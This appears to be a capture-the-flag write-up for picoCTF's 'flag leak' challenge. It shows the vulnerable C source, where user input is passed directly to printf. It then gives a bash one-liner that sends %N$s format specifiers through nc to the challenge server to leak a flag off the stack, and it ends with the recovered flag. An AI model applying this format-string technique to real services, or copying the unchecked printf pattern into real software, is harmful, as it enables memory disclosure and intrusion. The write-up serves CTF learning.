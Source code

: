 # flag leak

---

AUTHOR: NEEL BHAVSAR

Description
Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view 
source here. And connect with it using:

---

So there's a string format vulnerability............


vuln.c 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

---

let's go for a one liner............

```bash
❯ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 60120 | grep -Ei pico; done

FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_
^C
```
```bash
❯ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 60120 | grep -Ei ctf; done

CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}

```
after running the command give it few minutes..............
I tried to filter both flag and pico but the terminal freaked out....

flag:```picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}```

---


